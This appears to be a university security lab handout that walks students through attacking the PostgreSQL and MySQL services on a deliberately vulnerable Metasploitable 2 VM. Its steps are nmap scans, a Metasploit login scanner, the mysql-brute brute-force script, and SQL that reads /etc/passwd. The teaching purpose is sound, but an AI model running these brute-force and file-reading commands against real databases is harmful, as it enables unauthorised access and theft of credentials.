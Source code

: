 # ACIT 4630 - Lab 3: Attacking Databases on Metasploitable 2

## Instructions

### Scanning for Open Ports
Run the following command to scan for services and ports on the Metasploitable 2 VM:
```sh
   sudo nmap -sV <Metasploitable2_VM_IP>
```
Identify the open ports for PostgreSQL (port 5432) and MySQL (port 3306).
Run a more detailed scan on the database ports: (OPTIONAL)
```sh
sudo nmap -T5 --script='all' -p5432,3306 <Metasploitable2_VM_IP>
```
### Attack PostgreSQL Database
Start Metasploit in Kali Linux:
```sh
   msfconsole
```
Search for the PostgreSQL login scanner:
```sh
   search scanner postgres login
```
Set the necessary variables:
- Set `RHOSTS` to your <Metasploitable2_VM_IP>.
- Set `ANONYMOUS_LOGIN` to true.

Run the exploit to find working credentials: `run` or `exploit`
After discovering the credentials, log in to the PostgreSQL database:
```sh
   psql -h <Metasploitable2_VM_IP> -U <Username> -d <DB Name>
```
Once inside the PostgreSQL shell, retrieve the system's password file as below:
1.	First, we need to create a Table:
    ```sql
    CREATE TABLE passwd_data (line TEXT);
    ```
2.	Then we need to copy the file to out table:
    ```sql
    COPY passwd_data FROM '/etc/passwd';
    ```
3.	We read the whole table:
    ```sql
    SELECT * from passwd_data;
    ```

### Attack MySQL Database
Run the following Nmap command to brute force MySQL credentials:
```sh
sudo nmap -T1 -d --script="mysql-brute" -p3306            <Metasploitable2_VM_IP>
```
**Note**: If no credentials are found, try again OR reboot the Metasploitable 2 VM.
After obtaining credentials, log in to MySQL:
```sh
  mysql -h <Metasploitable2_VM_IP> -u root -p –skip-ssl
```
In the MySQL shell, dump the password file:
```sql
SELECT load_file('/etc/passwd');
```

### Submission For Lab 3: 
- Add these screenshots to your report:
- Result of msfconsole postgres exploit
- Result of entering postgres database and retrieving the passwd file
- Result of nmap script where you got credentials of mysql
- Result of entering mysql database queries and retrieving the passwd file
